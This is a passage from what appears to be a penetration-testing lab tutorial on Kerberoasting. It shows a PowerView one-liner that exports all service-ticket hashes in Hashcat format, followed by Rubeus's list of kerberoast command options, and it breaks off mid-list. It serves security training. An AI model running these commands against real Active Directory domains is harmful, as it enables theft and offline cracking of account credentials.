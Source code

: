 ### Get All Tickets

We can also decide to export all tickets and save it to a CSV file:

```powershell-session
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

## Rubeus

```powershell-session
PS C:\htb> .\Rubeus.exe

<SNIP>

Roasting:

    Perform Kerberoasting:
        Rubeus.exe kerberoast [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting, outputting hashes to a file:
        Rubeus.exe kerberoast /outfile:hashes.txt [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps]

    Perform Kerberoasting, outputting hashes in the file output format, but to the console:
        Rubeus.exe kerberoast /simple [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting with alternate credentials:
        Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting with an existing TGT:
        Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

    Perform Kerberoasting with an existing TGT using an enterprise principal:
        Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

    Perform Kerberoasting with an existing TGT and automatically retry with the enterprise principal if any fail:
        Rubeus.exe kerberoast </ticket:BASE64 | /ticket:FILE.KIRBI> /autoenterprise [/ldaps] [/nowrap]

    Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
        Rubeus.exe kerberoast /usetgtdeleg [/ldaps] [/nowrap]

    Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
        Rubeus.exe kerberoast /rc4opsec [/ldaps] [/nowrap]

    List statistics about found Kerberoastable accounts without actually sending ticket requests:
        Rubeus.exe kerberoast /stats [/ldaps] [/nowrap]

    Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
        Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/ldaps] [/nowrap]

    Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
```